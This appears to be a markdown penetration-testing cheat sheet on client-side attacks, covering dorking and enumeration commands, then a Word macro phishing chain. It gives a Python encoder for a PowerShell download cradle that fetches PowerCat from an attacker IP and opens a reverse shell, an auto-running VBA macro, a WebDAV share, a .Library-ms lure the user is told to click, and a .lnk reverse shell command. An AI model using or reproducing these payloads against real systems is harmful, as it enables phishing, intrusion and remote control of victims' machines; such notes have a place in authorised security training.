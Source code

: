 # Client-side attacks

## Dorking

Passive: 
- browser: `site:www.site-to-hack.com filetype:pdf`
- cli: `kali$ firefox --search "Microsoft Edge site:exploit-db.com`, `inurl:`, `intext:`, `intitle:`
Gobuster: 
- `gobuster dir -x pdf -u $TargetIp -w /usr/share/wordlist/dirb/common.txt`
- `gobuster dir -x .pdf, .txt -u $TargetIp -w /usr/share/wordlist/dirb/big.txt`
Exiftool: `exiftool -a -u somefile.pdf`

## Macros

### Word

Start a listener:
```
kali$ nc -lnvp $AttackerPort
```
base64 encode a PowerShell reverse shell, or a download cradle for [PowerCat](https://github.com/besimorhino/powercat):
```
import base64

text = "IEX(New-Object System.Net.WebClient).DownloadString('http://$AttackerIp/powercat.ps1');powercat -c $AttackerIp -p $AttackerPort -e powershell"

payload = base64.b64encode(bytes(text, 'utf-16-le')).decode('utf-8') # WARNING: Windows uses UTF-16-LE encoding...

print("PowerCat cradle:", text)
print("Payload, base64 utf-16-le encoded:", payload)

n = 50 

print("Str = \"powershell.exe -nop -w hidden -e \"")
for i in range(0, len(payload), n):
    print("Str = Str + " + '"' + payload[i:i+n] + '"')
```
embed it in Word macro:
```
Sub AutoOpen()
  MyMacro
End Sub
Sub Document_Open()
  MyMacro
End Sub
Sub MyMacro()
  '-----
  'CreateObject("Wscript.Shell").Run "powershell"
  '-----
  Dim Str As String
  Str = "powershell.exe -nop -w hidden -enc "
  Str += Str + "some"
  Str += Str + "long"
  Str += Str + "base64"
  Str += Str + "utf-16-le"
  Str += Str + "string"
  CreateObject("Wscript.Shell").Run Str
End Sub
```
and start an http server:
```
kali$ python3 -m http.server 80
```

### Library files

#### Webdav shares

Install and run a Webdav share:
```
kali$ sudo apt-get install python3-wsgidav
kali$ wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /path/to/webdav/share/
```

#### Extension `.Library-ms`

Make a `myautomatedfakeinstalltofoolsomeuser.Library-ms` file pointing to the Webdav share on Kali, send it by mail and tell the user to click it. \
In the Webdav share, prepare a reverse shell. For example with [PowerCat](https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1) in a `.lnk` file:
```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://myip:myhttpport/powercat.ps1');powercat -c myip -p myncport -e powershell"
```
Instead of sending the Library file by email, it can be shared by Samba:
```
smbclient //$TargetIp/$TargetSharedDirectory -c 'put myautomatedfakeinstalltofoolsomeuser.Library-ms.Library-ms'
```


